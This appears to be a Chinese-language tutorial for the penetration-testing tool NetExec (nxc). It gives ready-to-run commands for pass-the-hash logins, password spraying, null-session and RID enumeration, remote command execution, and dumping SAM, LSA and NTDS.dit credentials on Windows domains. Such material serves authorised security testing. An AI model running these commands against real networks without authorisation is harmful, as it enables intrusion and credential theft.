

NetExec（命令行简称 nxc）是一款用于自动化网络安全评估、内网渗透测试和漏洞检测的开源工具，也是经典工具 CrackMapExec（CME） 的活跃继任者。它常用于测试大型网络和 Windows 域（Active Directory）环境的安全状况。



## 核心功能

多协议支持：支持 SMB、LDAP、WinRM、MSSQL、SSH、FTP、RDP、WMI、VNC、NFS 等多种网络协议。

信息与资产枚举：可扫描存活主机，枚举共享目录、在线会话、域用户、密码策略及域内信息。

认证与爆破：支持密码喷洒（Password Spraying）、暴力破解以及 Kerberos 认证相关测试。

远程执行与凭据提取：在具备权限的情况下支持远程命令/PowerShell 执行，以及提取 SAM、LSA、NTDS 等凭据信息。

模块化扩展：内置多种功能模块（-M），可联动漏洞检测或信息收集流程。


## 安装

建议使用 pipx 安装 NetExec：

```bash
sudo apt install pipx git
pipx ensurepath
pipx install git+https://github.com/Pennyw0rth/NetExec
```

通过 pipx 更新：

```bash
pipx upgrade netexec
pipx reinstall netexec
```

kali 安装：

```bash
apt update
apt install netexec
```

## 基础用法

指定目标。每个协议都支持通过 CIDR 表示法、IP 地址、IP 地址范围、主机名、包含目标列表的文件或上述所有方式的组合来指定目标：

```bash
nxc <protocol> poudlard.wizard
nxc <protocol> 192.168.1.0 192.168.0.2
nxc <protocol> 192.168.1.0/24
nxc <protocol> 192.168.1.0-28 10.0.0.1-67
nxc <protocol> ~/targets.txt
```

认证。 NetExec 支持多种认证方式，包括用户名/密码、域用户、Kerberos 票据等。每种协议都支持以某种形式使用凭据。一般来说，要使用凭据，可以运行以下命令，使用 SMB 协议时，被入侵的用户很可能属于（本地）管理员组。

```bash
ip=192.168.1.1
nxc <protocol> <target(s)> -u username -p password
nxc smb $ip -u 'test' -p 'test'
nxc smb $ip -u Administrator -H '13b29964cc2480b4ef454c59562e675c'
nxc smb $ip -u Administrator -H 'aad3b435b51404eeaad3b435b51404ee:13b29964cc2480b4ef454c59562e675c'
nxc smb $ip -u 'test' -p 'test' --local-auth
nxc smb $ip -u Administrator -H '13b29964cc2480b4ef454c59562e675c' --local-auth
nxc smb $ip -u Administrator -H 'aad3b435b51404eeaad3b435b51404ee:13b29964cc2480b4ef454c59562e675c' --local-auth
```


异常。当密码中包含 !、$ 等特殊字符时，务必用单引号包裹，避免被 shell 解释。若用户名或密码以 - 开头，会被解析为参数，需使用 -u='-a' -p='-b' 这种长参数格式传值。

```bash
nxc <protocol> <target(s)> -u username -p 'October2022!'
nxc <protocol> <target(s)> -u='-a' -p='-b'
```

暴力破解。所有协议都支持暴力破解和密码喷洒攻击，通过指定一个或多个文件，nxc 将自动使用指定的协议对所有目标进行暴力破解登录：

```bash
nxc <protocol> <target(s)> -u username1 -p password1 password2
nxc <protocol> <target(s)> -u username1 username2 -p password1
nxc <protocol> <target(s)> -u ~/file_containing_usernames -p rockyou.txt
nxc <protocol> <target(s)> -u ~/file_containing_usernames -H ~/file_containing_ntlm_hashes
```

Kerberos。NetExec 支持 Kerberos 身份验证。使用密码/哈希值，可自动处理 TGT/ST，KRB5CCNAME通过环境变量指定文件来使用现有票据。使用 `-k` 参数，NetExec 将尝试使用环境变量 KRB5CCNAME 指定的 Kerberos 票据进行身份验证，或者使用 `--use-kcache` 参数指定的票据缓存文件。

```bash
$ KRB5CCNAME=/home/bonclay/impacket/administrator.ccache
$ nxc smb zoro.gold.local -u bonclay -p Ocotober2022 -k
SMB         zoro.gold.local 445    ZORO             [*] Windows 10.0 Build 14393 (name:ZORO) (domain:gold.local) (signing:False) (SMBv1:False)
SMB         zoro.gold.local 445    ZORO             [+] gold.local\bonclay

$ export KRB5CCNAME=/home/bonclay/impacket/administrator.ccache 
$ nxc smb zoro.gold.local --use-kcache
SMB         zoro.gold.local 445    ZORO             [*] Windows 10.0 Build 14393 (name:ZORO) (domain:gold.local) (signing:False) (SMBv1:False)
SMB         zoro.gold.local 445    ZORO             [+] gold.local\administrator (Pwn3d!)
$ nxc smb zoro.gold.local --use-kcache -x whoami
SMB         zoro.gold.local 445    ZORO             [*] Windows 10.0 Build 14393 (name:ZORO) (domain:gold.local) (signing:False) (SMBv1:False)
SMB         zoro.gold.local 445    ZORO             [+] gold.local\administrator (Pwn3d!)
SMB         zoro.gold.local 445    ZORO             [+] Executed command 
SMB         zoro.gold.local 445    ZORO             gold\administrator
```

## 模块

运行nxc <protocol> -L以查看指定协议的可用模块。

例如，要查看 SMB 协议的所有模块：

```bash
nxc smb -L
```

查看模块选项：

```bash
nxc smb -M lsassy --options
```

常用模块

```bash
ip=192.168.6.240
# 域控提权漏洞zerologon检测
nxc smb $ip -u guest -p '' -M zerologon
# nopac，域成员冒充域控漏洞检测
nxc smb $ip -u guest -p pass -M nopac
# ms17-010
nxc smb $ip -u guest -p '' -M ms17-010
# enum_ca，检查是否存在证书服务
nxc smb $ip -u guest -p '' -M enum_ca
# 杀软枚举
nxc smb $ip -u guest -p '' -M enum_av
```

## 枚举

检查网络上是否启用了空会话（也称为匿名会话）。这在域控制器上非常有用，可以用来枚举用户、组、密码策略等。

```bash
ip=192.168.6.240
nxc smb $ip -u '' -p ''
nxc smb $ip -u '' -p '' --shares
nxc smb $ip -u '' -p '' --pass-pol
nxc smb $ip -u '' -p '' --users
nxc smb $ip -u '' -p '' --groups
nxc smb $ip -u 'guest' -p ''
nxc smb $ip -u 'guest' -p '' --shares
nxc smb $ip -u 'guest' -p '' --pass-pol
nxc smb $ip -u 'guest' -p '' --users
nxc smb $ip -u 'guest' -p '' --groups
```

通过爆破 rid 枚举用户

```bash
nxc smb $ip -u 'guest' -p pass --rid-brute
```

枚举本地组

```bash
nxc smb $ip -u user -p pass --local-group
```

## 密码喷洒

可以使用多个用户名或密码，只需用空格分隔用户名/密码即可。

```bash
nxc smb 192.168.1.101 -u user1 user2 user3 -p Summer18
nxc smb 192.168.1.101 -u user1 -p password1 password2 password3
```

nxc 接受包含用户名和密码的 txt 文件。每行一个用户名/密码，注意账户可能被锁定，先检查密码策略。

```bash
nxc smb 192.168.1.101 -u /path/to/users.txt -p Summer18
nxc smb 192.168.1.101 -u Administrator -p /path/to/passwords.txt
```

## 命令执行

在 Windows 系统上执行命令需要管理员权限。如果使用的凭据集具有对主机的管理员访问权限，则会在身份验证成功时，在输出中附加“(Pwn3d!)”

nxc 有三种不同的命令执行方法，默认按wmi、at、smb顺序尝试，直到成功为止。

- wmiexec通过 WMI 执行命令
- atexec通过 Windows 任务计划程序安排任务来执行命令
- smbexec通过创建和运行服务来执行命令

可以使用 `-x` 参数指定要执行的命令，使用 `-X` 参数指定要执行的 PowerShell 命令，--exec-method参数强制使用指定的执行方法。

```bash
nxc smb $ip -u Administrator -p pass -x whoami
nxc smb $ip -u Administrator -p pass -X 'Get-content C:\Windows\System32\drivers\etc\hosts'
```

## 上传与下载

使用 NetExec 获取远程文件或发送远程文件

```bash
# 上传文件
nxc smb 172.16.251.152 -u user -p pass --put-file /tmp/whoami.txt \\Windows\\Temp\\whoami.txt

# 下载文件
nxc smb 172.16.251.152 -u user -p pass --get-file \\Windows\\Temp\\whoami.txt /tmp/whoami.txt
```

## 转储

使用 secretsdump.py 中的方法转储 SAM 哈希值，需要管理员权限。

SAM 存本地账号的 LM/NT hash，LSA 存储本机机器账号凭据、服务账号明文密码、自动登录密码、DPAPI 密钥、缓存域凭据等，NTDS.dit 存储全域账号 NT/LM hash。

```bash
# 转储 SAM 哈希值
nxc smb $ip -u UserName -p 'PASSWORDHERE' --sam
nxc smb $ip -u UserName -p 'PASSWORDHERE' --sam secdump

# 转储 LSA 凭据
nxc smb $ip -u UserName -p 'PASSWORDHERE' --lsa
nxc smb $ip -u UserName -p 'PASSWORDHERE' --lsa secdump

# 转储 NTDS.dit 凭据
nxc smb $ip -u UserName -p 'PASSWORDHERE' --ntds
nxc smb $ip -u UserName -p 'PASSWORDHERE' --ntds --enabled
nxc smb $ip -u UserName -p 'PASSWORDHERE' --ntds vss
nxc smb $ip -u UserName -p 'PASSWORDHERE' --ntds --user Administrator

# 转储 LSA 凭据和 NTDS.dit 凭据
nxc smb $ip -u administrator -p pass -M lsassy
nxc smb $ip -u administrator -p pass -M nanodump
```
